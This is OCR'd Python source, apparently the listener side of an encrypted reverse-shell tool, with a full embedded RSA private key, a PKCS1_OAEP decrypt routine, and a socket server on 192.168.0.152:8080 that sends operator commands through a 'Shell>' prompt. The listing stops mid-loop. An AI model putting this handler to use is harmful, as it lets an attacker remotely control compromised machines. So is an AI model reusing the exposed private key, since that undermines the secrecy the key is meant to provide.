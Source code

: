 ```python
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
-----END RSA PRIVATE KEY-----'''
    private_key = RSA.importKey(privatekey)
    decryptor = PKCS1_OAEP.new(private_key)
    dec = decryptor.decrypt(cipher)
    return dec.decode()
def connect():
    s = socket.socket()
    s.bind(('192.168.0.152', 8080))
    s.listen(1)
    print('[+] Listening for incoming TCP connection on port 8080')
    conn, addr = s.accept()

    while True:
        store = ''
        command = input("Shell> ")
        if 'terminate' in command:
            conn.send('terminate'.encode())
            conn.close()
```